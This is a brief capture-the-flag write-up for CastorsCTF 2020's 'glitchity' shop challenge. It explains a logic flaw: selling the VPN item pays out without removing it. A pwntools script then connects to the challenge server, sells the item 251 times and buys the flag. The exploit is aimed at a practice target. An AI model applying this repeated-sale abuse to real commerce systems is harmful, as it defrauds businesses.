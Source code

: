 ![glitchity](/assets/images/glitchity.png)

Once you connected to this network, you had the following prompt:

```bash
Welcome to my store, hope your bartering skill is high enough.
Here's the lot of them	 Your money: 100
Your money: 100
	0. Sell Item
	1. USB - 5 coins
	2. Book - 10 coins
	3. Snowglobe - 7 coins
	4. Painting - 100 coins
	5. Flag - 5000 coins
	6. VPN - 20 coins
	7. Quit
Choice:
```

So we need to get enough coins by bartering so we can buy the flag. I noticed that when you sold the VPN you got the money but didn't actually lose the item. So we need to sell it many times to get enough money for the flag.

This was the script to repeatedly sell the VPN:

```python
#castors ctf 2020
from pwn import *

r = remote("chals20.cybercastors.com", 14432)
r.clean()
r.sendline("6")
print(r.clean())
for x in range(251):
    print(x)
    r.sendline("0")
    print(r.recvline())
    r.clean()
    r.sendline("1")
    print(r.recvline())
    r.clean()

r.sendline("5")
r.interactive()
```
